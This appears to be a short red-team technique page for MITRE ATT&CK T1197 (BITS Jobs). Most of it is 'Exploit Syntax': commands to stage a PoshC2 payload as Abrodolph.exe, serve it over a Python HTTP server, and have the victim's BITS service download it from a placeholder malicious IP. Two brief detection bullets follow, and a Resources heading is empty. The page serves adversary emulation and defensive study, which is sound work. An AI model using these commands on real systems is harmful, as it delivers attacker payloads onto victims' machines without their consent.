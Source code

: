 # [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. In Parrot terminal run the following commands
    ```sh
    mkdir /home/<user>/Desktop/Lincoler
    cd /home/<user>/Desktop/Lincoler
    cp /var/poshc2/<project name>/payloads/<payload name> Abrodolph.exe
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```sh
    sharpps start-bitstransfer -source http://<malicious ip address>:12137/Abrodolph.exe -destination <victim save location>
    ```

## Detection Method
* Monitor for new BITS tasks being created
* Monitor network activity generated by BITS over HTTP(S)
## Resources    